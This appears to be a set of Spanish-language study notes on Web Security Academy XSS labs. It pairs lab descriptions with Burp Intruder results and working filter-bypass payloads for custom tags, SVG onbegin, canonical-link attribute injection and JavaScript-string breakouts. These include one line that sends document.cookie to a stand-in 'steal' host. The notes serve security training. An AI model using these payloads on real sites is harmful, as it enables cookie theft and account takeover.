Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af6000f0311801bbab39df200230060.web-security-academy.net/?search=%3Ci
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


### NOS DEVUELVE ESTOS EVENTOS

10	onbeforeinput	200	200	false	false	3502	
14	onbeforetoggle	200	199	false	false	3503	
18	oncancel	200	199	false	false	3497	
24	oncommand	200	199	false	false	3498	
25	oncontentvisibilityautostatechange	200	199	false	false	3523	
26	oncontentvisibilityautostatechange(hidden)	200	199	false	false	3531	
35	ondragexit	200	199	false	false	3499	
48	onformdata	200	199	false	false	3499	
50	ongesturechange	200	199	false	false	3504	
51	ongestureend	200	199	false	false	3501	
52	ongesturestart	200	199	false	false	3503	
74	onpagereveal	200	199	false	false	3501	
76	onpageswap	200	199	false	false	3499	
81	onpointercancel	200	199	false	false	3504	
92	onratechange	200	200	false	false	3501	
95	onresize	200	199	false	false	3497	
97	onscrollend	200	204	false	false	3500	
98	onscrollsnapchange	200	223	false	false	3507	
99	onscrollsnapchanging	200	208	false	false	3509	
101	onsecuritypolicyviolation	200	200	false	false	3514	




<body onresize=print()>



<body onresize=print()>

https://exploit-0aef008c03fd80f1ba149cbe01d600dc.exploit-server.net/



<iframe src="https://0af6000f0311801bbab39df200230060.web-security-academy.net/?search=<body onresize=print()>" onload=this.style.width='100px'></iframe>








# XSS reflejado con solo etiquetas personalizadas
En esta clase enfrentamos un entorno con XSS reflejado donde la aplicación ha bloqueado por completo todas las etiquetas HTML estándar, permitiendo únicamente etiquetas personalizadas. Este tipo de configuración busca prevenir inyecciones, pero aún puede ser burlada si no se filtran los atributos o eventos correctamente.

Utilizamos un servidor de explotación para construir un vector que incluye una etiqueta inventada, con un identificador específico y un evento que se activa al enfocar ese elemento. Al añadir un fragmento al final de la URL que apunta a esa etiqueta personalizada, el navegador intenta enfocarla automáticamente al cargar la página, lo que desencadena la ejecución del código malicioso sin necesidad de interacción del usuario.

Este laboratorio demuestra cómo incluso etiquetas no estándar pueden ser vehículos válidos para ataques XSS si los atributos y eventos no son controlados adecuadamente, reforzando la importancia de validar todo el contenido, no solo el nombre de la etiqueta.


## Laboratorio: XSS reflejado en contexto HTML con todas las etiquetas bloqueadas excepto las personalizadas
PRACTICANTE

LAB
No resuelto
Este laboratorio bloquea todas las etiquetas HTML excepto las personalizadas.

Para resolver el laboratorio, realice un ataque de secuencias de comandos entre sitios que inyecte una etiqueta personalizada y alerte automáticamente document.cookie.


<iframe src="https://0a4100f10338f6c9807203ee00c900d6.web-security-academy.net/?search=<xss autofocus onfocus=alert(document.cookie) tabindex=1></xss>"></iframe>



location.href='https://0a4100f10338f6c9807203ee00c900d6.web-security-academy.net/?search='+encodeURIComponent(document.cookie)



<custom-tag onfocus="alert(document.cookie); location.href='https://0a4100f10338f6c9807203ee00c900d6.web-security-academy.net/?search='+encodeURIComponent(document.cookie)" autofocus tabindex=1></custom-tag>


<script>
location='https://0a4100f10338f6c9807203ee00c900d6.web-security-academy.net/?search=<etiqueta  id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>










# XSS reflejado con etiquetas SVG permitidas
En esta clase trabajamos con un entorno de XSS reflejado donde la mayoría de etiquetas HTML estándar están bloqueadas, pero algunas relacionadas con SVG aún están permitidas, incluyendo ciertos eventos compatibles con esa tecnología.

La vulnerabilidad está en el buscador, que refleja la entrada del usuario directamente en la respuesta. Aunque intentos típicos de inyección son bloqueados, realizamos un análisis sistemático usando Burp Intruder para descubrir qué etiquetas y atributos aún son aceptados por el sistema.

Tras probar múltiples combinaciones, identificamos que algunas etiquetas del entorno SVG, como svg y animatetransform, junto con eventos como onbegin, no son filtradas y permiten la ejecución de código al momento de cargarse la página.

Aprovechamos esto para construir un vector que, sin intervención del usuario, desencadena una función en el navegador al iniciarse la animación SVG, completando con éxito el laboratorio.

Este caso demuestra cómo incluso los entornos con filtros activos pueden ser vulnerables si se dejan rutas menos comunes abiertas, como el espacio SVG, y destaca la importancia de validar tanto etiquetas como atributos y eventos asociados.


## Laboratorio: XSS reflejado con algún marcado SVG permitido
PRACTICANTE

LAB
No resuelto
Este laboratorio tiene una vulnerabilidad XSS reflejada simple. El sitio bloquea etiquetas comunes pero omite algunas etiquetas y eventos SVG.

Para resolver el laboratorio, realice un ataque de secuencias de comandos entre sitios que llame al alert() función.




<svg><desc></desc><script>alert(1)</script></svg>


### Buscar las etuiquetas en el INTRUDER

8	animatetransform	200	636	false	false	3281	
65	image	200	412	false	false	6423	


<svg>
  <animateTransform 
    attributeName="transform" 
    type="scale" 
    from="1" 
    to="2" 
    begin="0s" 
    onbegin="alert(document.cookie)" 
    dur="1s"
  />
</svg>



<svg>
  <animateTransform 
    onbegin="alert(0)" 
  />
</svg>



<svg>
  <animateTransform
    attributeName="transform"
    begin="0s"
    onbegin="fetch('https://tu-servidor.com/steal?cookie='+encodeURIComponent(document.cookie))"
    dur="0.1s"
  />
</svg>










# XSS reflejado en etiqueta canonical
En esta clase trabajamos con un XSS reflejado poco convencional, donde el punto vulnerable es una etiqueta utilizada para definir la URL canónica de la página. Aunque el sistema filtra los signos angulares para evitar aperturas de etiquetas nuevas, permite la inyección de atributos dentro de una etiqueta existente.

Aprovechamos este comportamiento para insertar atributos como accesskey y onclick, que nos permiten asociar una acción concreta —en este caso, la ejecución de código— a una combinación específica de teclas.

El exploit se construye de forma que, al presionar una combinación como Alt+Shift+X, el navegador dispare un evento que ejecuta la función deseada. Aunque no ocurre de forma automática al cargar la página, se considera válida ya que no requiere interacción directa con el contenido visible ni clics por parte del usuario.

Este laboratorio demuestra cómo atributos aparentemente inofensivos pueden ser utilizados como vectores de ejecución, y cómo el contexto de inyección —incluso en elementos como enlaces— puede tener implicaciones de seguridad si no se controla adecuadamente.


## Laboratorio: XSS reflejado en la etiqueta de enlace canónico
PRACTICANTE

LAB
No resuelto
Este laboratorio refleja la entrada del usuario en una etiqueta de enlace canónica y escapa de los corchetes angulares.

Para resolver el laboratorio, realice un ataque de secuencias de comandos entre sitios en la página de inicio que inyecte un atributo que llame al alert función.

Para ayudarle con su exploit, puede asumir que el usuario simulado presionará las siguientes combinaciones de teclas:

ALT+SHIFT+X
CTRL+ALT+X
Alt+X
Tenga en cuenta que la solución prevista para este laboratorio solo es posible en Chrome.


view-source:https://0a9f004f03f65bb6807d08b500ed007c.web-security-academy.net/?' accesskey='x' onclick='alert(1)


https://0a9f004f03f65bb6807d08b500ed007c.web-security-academy.net/?%27%20accesskey=%27x%27%20onclick=%27alert(1)









# XSS en string JS con comilla y backslash escapados
En esta clase abordamos un XSS reflejado que se produce dentro de una cadena de texto en un bloque de JavaScript. El valor de entrada del usuario es reflejado en una variable delimitada por comillas simples, y tanto estas comillas como las barras invertidas están escapadas para dificultar la inyección.

Al intentar romper la cadena directamente, observamos que los caracteres clave quedan neutralizados, impidiendo ejecutar código dentro del mismo contexto. La estrategia, entonces, consiste en cerrar la etiqueta de script actual e insertar una nueva, completamente separada, que contenga la instrucción maliciosa.

De este modo, el contenido inyectado no depende de romper la cadena desde dentro, sino de interrumpir el bloque de código y generar uno nuevo fuera del contexto protegido. El navegador interpreta esta estructura como válida, permitiendo la ejecución de la función deseada.

Este laboratorio enseña una técnica de evasión muy útil para entornos donde los caracteres de escape son aplicados, pero el análisis del contexto permite insertar etiquetas completas que se interpretan igualmente como ejecutables por el navegador.


## Laboratorio: XSS reflejado en una cadena JavaScript con comillas simples y barra invertida escapada
PRACTICANTE

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios reflejada en la funcionalidad de seguimiento de consultas de búsqueda. La reflexión ocurre dentro de una cadena de JavaScript con comillas simples y barras invertidas escapadas.

Para resolver este laboratorio, realice un ataque de secuencias de comandos entre sitios que se salga de la cadena JavaScript y llame al alert función.

a';alert(1);//


- Contiene: espacio + cierre de script + nuevo script con alerta + comentario
- El </script> cierra el script actual prematuramente
- <script>alert(1) inicia un nuevo script malicioso
- // comenta el resto del código original



'</script><script>alert(1);//

'</script><script>alert(1);</script> 



<script>
var searchTerms = ' '</script><script>alert(1);// ';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>






Composición del payload:

- M4rdukwasH3re: Texto arbitrario de camuflaje
- \\\\\': Cuatro backslashes y una comilla simple

En JavaScript, \\\\ se convierte en \\ (dos backslashes literales)
- \' se convierte en ' (comilla simple escapada)
- -alert(1): Código malicioso a inyectar
- //: Comentario para neutralizar el resto de la línea


M4rdukwasH3re\\'-alert(1)//


<script>
var searchTerms = 'M4rdukwasH3re\\\\\'-alert(1)//';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>







# XSS en JS con comillas, corchetes y comilla escapada
En esta clase analizamos un XSS reflejado que ocurre dentro de una cadena de texto en JavaScript. El valor reflejado del buscador se inserta en una variable delimitada por comillas simples. En este caso, las comillas simples están escapadas correctamente, y tanto los signos angulares como las comillas dobles están codificados como entidades HTML.

Sin embargo, la clave está en que las barras invertidas no se escapan, lo que nos permite introducir una de forma manual y romper el contexto de la cadena desde fuera.

Aprovechamos esta debilidad insertando una barra invertida seguida de una comilla escapada que finaliza la cadena, y después inyectamos una instrucción directa, separándola del código original con un operador y comentarios para evitar errores de sintaxis.

Este laboratorio muestra cómo es posible evadir filtros mixtos —HTML y JavaScript— si se detecta un punto débil en alguno de los mecanismos de escape, como en este caso con las barras invertidas no gestionadas correctamente.


## Laboratorio: XSS reflejado en una cadena JavaScript con corchetes angulares y comillas dobles codificadas en HTML y comillas simples escapadas
PRACTICANTE

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios reflejada en la funcionalidad de seguimiento de consultas de búsqueda, donde los corchetes angulares y los dobles están codificados en HTML y se escapan las comillas simples.

Para resolver este laboratorio, realice un ataque de secuencias de comandos entre sitios que se salga de la cadena JavaScript y llame al alert función.



<script>
var searchTerms = '&lt;script&gt;alert(1)&lt;/script&gt;';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>





\\\';-alert(1)//test

\\';-alert(1)//test











# XSS almacenado en ‘onclick’ con codificación completa
En esta clase trabajamos con un XSS almacenado que afecta al campo de sitio web del sistema de comentarios. Este valor es posteriormente utilizado dentro de un manejador de eventos del tipo onclick asociado al nombre del autor del comentario.

El sistema aplica múltiples medidas de protección: codifica los signos angulares y las comillas dobles como entidades HTML, y además escapa tanto las comillas simples como las barras invertidas. Sin embargo, al observar cuidadosamente cómo se construye el atributo, descubrimos que aún podemos romper la estructura si inyectamos un valor cuidadosamente diseñado.

Utilizamos un valor de URL que contiene una secuencia manipulada para cerrar el contexto del atributo y ejecutar una función directamente. El carácter de escape que normalmente neutralizaría la comilla es absorbido por la estructura de la URL, permitiendo que el código se ejecute al hacer clic sobre el nombre del autor.

Este laboratorio enseña cómo incluso con múltiples capas de filtrado, pueden encontrarse formas de romper el contexto si se entiende cómo se evalúan los caracteres especiales en combinación con el navegador.


## Laboratorio: XSS almacenado en onclick evento con corchetes angulares y comillas dobles codificadas en HTML y comillas simples y barra invertida escapada
PRACTICANTE

LAB
No resuelto
Este laboratorio contiene una vulnerabilidad de secuencias de comandos entre sitios almacenada en la funcionalidad de comentarios.

Para resolver este laboratorio, envíe un comentario que llame al alert función cuando se hace clic en el nombre del autor del comentario.


 <input pattern="(http:|https:).+" type="text" name="website">


<section class="comment">
<p>
<img src="/resources/images/avatarDefault.svg" class="avatar">                            
<a id="author" href="https://cdssass.com" onclick="var tracker={track(){}};tracker.track('https://cdssass.com');">test</a> | 07 August 2025
</p>
<p>test</p>
<p></p>
</section>



https://cdssass.com&apos;+alert(1)+&apos;


